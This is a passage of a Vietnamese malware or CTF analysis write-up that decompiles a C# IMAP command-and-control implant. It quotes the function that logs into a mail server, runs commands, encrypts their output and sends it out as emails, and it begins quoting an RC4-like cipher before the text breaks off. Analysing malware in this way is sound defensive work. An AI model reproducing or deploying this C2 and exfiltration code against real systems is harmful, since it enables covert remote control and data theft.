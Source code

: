 Hàm create tạo một email cơ bản với thông tin người gửi, chủ đề (dựa trên thời gian và comp_id), và nội dung text. Sau đó, nó gửi email này lên máy chủ IMAP (vào thư mục "Inbox") thông qua kết nối mạng bảo mật (Program.ssl). Nội dung gửi chính là đoạn văn bản bị mã hóa kia

Tiếp theo

```C#
private static void execute(string[] commands)
    {
      try
      {
        Program.connect(Program.creds.Split(':')[2], 143);
        Program.Login(Program.creds.Split(':')[0], Program.creds.Split(':')[1]);
      }
      catch
      {
        try
        {
          Program.connect(Program.r_creds.Split(':')[2], 143);
          Program.Login(Program.r_creds.Split(':')[0], Program.r_creds.Split(':')[1]);
        }
        catch
        {
        }
      }
      foreach (string command in commands)
      {
        if (command.Contains("change_"))
          Program.change(command);
        else
          Program.create(Convert.ToBase64String(Program.xor(Encoding.UTF8.GetBytes(Program.cmd(command)))));
      }
    }
```
Hàm execute thực hiện cố gắng kết nối đến máy chủ email bằng tài khoản chính (proplayer@email.com) , nếu không được thì dùng tài khoản dự phòng (proplayer1@email.com)
- Nếu không phải lệnh change_ thì chạy lệnh, mã hóa kết quả, và gửi lên máy chủ dưới dạng email

Tiếp theo là hàm mã hóa xor

![image](https://github.com/user-attachments/assets/ac1e4ac2-67ba-4486-b534-ed3897cd25a2)

Hàm sử dụng một mảng byte cố định gồm 256 phần tử làm khóa (key)

Đến đây là mình bị stuck, vì ban đầu mình nghĩ thì chỉ là xor giữa key và data xong base64 encrypt thông thường nhưng thử rất nhiều script giải mã mà kh cho ra kết quả mong muốn

Nhìn kĩ lại thì thấy ban đầu hàm return Exor.encrypt, giờ mình sẽ đi tìm hàm Exor xem nó làm gì

```C#
namespace imap_chanel
{
  public class Exor
  {
    public static byte[] Encrypt(byte[] pwd, byte[] data)
    {
      int[] numArray1 = new int[256];
      int[] numArray2 = new int[256];
      byte[] numArray3 = new byte[data.Length];
      for (int index = 0; index < 256; ++index)
      {
        numArray1[index] = (int) pwd[index % pwd.Length];
        numArray2[index] = index;
      }
      int index1;
      for (int index2 = index1 = 0; index1 < 256; ++index1)
```